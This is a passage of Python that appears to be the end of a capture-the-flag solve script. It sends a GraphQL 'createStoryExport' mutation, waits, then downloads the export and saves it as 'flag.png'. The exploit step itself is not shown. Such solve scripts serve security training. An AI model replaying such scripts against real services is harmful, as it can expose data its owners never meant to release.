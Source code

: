 ```python
mutation {
    createStoryExport(export: { storyId: %d,dimensions: SQUARE_400x400 }) {
        id
    }
}
"""
    % story_id,
    s1,
)
print(r.text)

time.sleep(30)
r = s1.get(URL + "api/export/" + str(r.json()["data"]["createStoryExport"]["id"]))
open("flag.png", "wb").write(r.content)
```